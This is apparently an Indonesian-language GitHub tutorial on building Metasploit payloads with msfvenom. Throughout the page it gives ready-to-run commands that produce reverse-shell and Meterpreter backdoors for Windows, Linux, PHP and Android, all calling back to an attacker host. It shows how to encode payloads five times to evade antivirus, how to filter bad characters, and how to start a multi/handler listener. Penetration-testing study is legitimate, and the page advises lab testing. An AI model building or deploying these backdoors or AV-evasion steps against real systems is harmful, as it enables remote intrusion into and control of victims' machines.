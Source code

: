 # Membuat Payload dengan msfvenom

## A. Apa Itu msfvenom?

msfvenom adalah tool bawaan dari Metasploit yang digunakan untuk:
- Membuat payload eksploitasi (`reverse shell`, `Meterpreter`, `dll`).
- Meng-encode payload untuk menghindari antivirus.
- Meng-output payload dalam berbagai format (`exe`, `elf`, `raw`, `c`, `dll`).

## B. Struktur Dasar Perintah msfvenom:

```
msfvenom -p <payload> LHOST=<ip_attacker> LPORT=<port> -f <format_output> -o <nama_file>
```

Keterangan:

| Parameter | Fungsi |
|:--:|:--:|
| `-p` | Memilih jenis payload | 
| `LHOST` | IP lokal/attacker |
| `LPORT` |	Port listener di attacker |
| `-f` | Format file output (`exe`, `elf`, `raw`, `dll`) |
| `-o` | Nama file output |
| `-e` | Encoder yang digunakan |
| `-i` | Jumlah iterasi encoder |
| `-n` | Jumlah byte NOP (NOP sled) |

## C. Contoh Payload Windows

1. Payload Reverse TCP:

   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o shell.exe
   ```

   Output: `shell.exe` (bisa dijalankan di sistem Windows).

2. Payload Dilengkapi Encoder:
  
   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o shell_encoded.exe
   ```

   Encoding `5 kali` untuk menghindari deteksi AV.

## D. Contoh Payload Linux:

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o backdoor.elf
```

Output: file `ELF` untuk Linux.

## E. Format Output yang Didukung

| Format |	Keterangan |
|:--:|:--:|
| `exe` | Windows executable |
| `elf` |	Linux executable |
| `raw` | Shellcode mentah |
| `c`	| Shellcode dalam array C |
| `python` | Shellcode untuk script Python |
| `asp, jsp`	| Webshell payload |
| `dll, macho, rb, dll`	| Format lainnya |

## F. Menampilkan Semua Payload yang Tersedia:

```
msfvenom -l payloads
```

## G. Contoh Payload di Format C:

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c
```

Output-nya cocok untuk disisipkan dalam exploit `C` manual.

## H. Membuat Web Payload (PHP/ASP/JSP)

Contoh Payload `PHP`:

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o shell.php
```

## I. Memasukkan Bad Characters

Untuk menghindari karakter tertentu seperti `\x00\x0a`, bisa tambahkan:

```
-b "\x00\x0a"
```

Contoh:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -b "\x00\x0a" -f exe -o filtered_shell.exe
```

## J. Payload untuk Android:

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -o backdoor.apk
```

## K. Listener di Metasploit

Setelah payload dijalankan di target, buka listener:

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <IP ATTACKER>
set LPORT 4444
run
```

## Tips Tambahan

- Selalu uji payload di lab virtual.
- Gunakan encoding bila antivirus mendeteksi payload.
- Tambahkan `NOP sled` jika payload tidak stabil.
